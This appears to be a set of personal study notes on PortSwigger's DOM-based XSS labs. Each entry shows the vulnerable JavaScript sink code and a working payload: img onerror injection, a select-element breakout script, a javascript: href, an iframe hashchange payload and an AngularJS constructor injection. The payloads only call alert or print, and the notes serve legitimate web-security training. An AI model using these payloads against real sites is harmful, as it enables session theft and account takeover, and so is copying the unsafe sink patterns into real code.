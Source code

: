 Lab: [DOM XSS in document.write sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

Payload: "><img src=1 onerror=alert(1)>

Lab: [DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

```javascript
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');    
```
--->

store is from user input in the URL params (``URLSearchParams``)

```html
<select name="storeId">
<option selected>'+store+'</option>'
<option>'+stores[i]+'</option>
</select>
```

![](./img/6.png)

payload: 

```html
1+</option></select>"<script>alert(1)</script>
```
--->
```html
<select name="storeId">
<option selected> 1 </option></select>"<script>alert(1)</script></option>
<option>'+stores[i]+'</option>
</select>
```

Lab: [DOM XSS in innerHTML sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)


```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

payload: <b>XSS</b> --> XSS

<img src=1 onerror=alert()>

Lab: [DOM XSS in jQuery anchor href attribute sink using location.search source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)

```javascript
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

payload: javascript:alert(1) --> <a href=javascript:alert(1)> 

Lab: [DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

payload: ``<iframe src="https://0a06004904b7997880b4a48400a4000b.web-security-academy.net#" onload="this.src+='<img src=1 onerror=print()>'">``

Lab: [DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

When a site uses the ng-app attribute on an HTML element, it will be processed by AngularJS. In this case, AngularJS will execute JavaScript inside double curly braces that can occur directly in HTML or inside attributes.

payload: {{$on.constructor('alert(1)')()}}